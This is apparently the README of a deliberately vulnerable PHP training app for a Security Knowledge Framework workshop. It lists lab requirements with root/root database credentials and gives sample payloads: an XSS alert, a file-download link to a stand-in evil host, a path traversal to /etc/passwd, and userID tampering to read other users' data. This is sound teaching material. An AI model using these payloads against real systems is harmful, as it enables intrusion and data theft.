 # skf-workshop
Demo PHP Application with security vulnerabilities, can be used to teach SKF in a workshop

Requirements for this web-application:
- Webserver
  - Tested with Apache2
- PHP5
- Mysql
  - PHP Code uses the Mysql PDO driver
  - user: root
  - password: root
- Database test

Remark:
Do not run this outside a secured LAB environment!


Injections strings, for hands-on(slides)

*Cross site scripting:*
<script> alert(123);</script>

*Reflective file download:*
On the hackme application you can make the download= url make the user download 
a file from another source:
download=http://www.evilsite.com/evil.bat

*Directory/path traversal*
On the about page you can tamper the param= which allows you to do a directory traversal:
../../../../etc/passwd

*Idenentifier injection* 
Whenever the user is loggedin into the application you can now tamper the userID=
parameter and steal other users data.





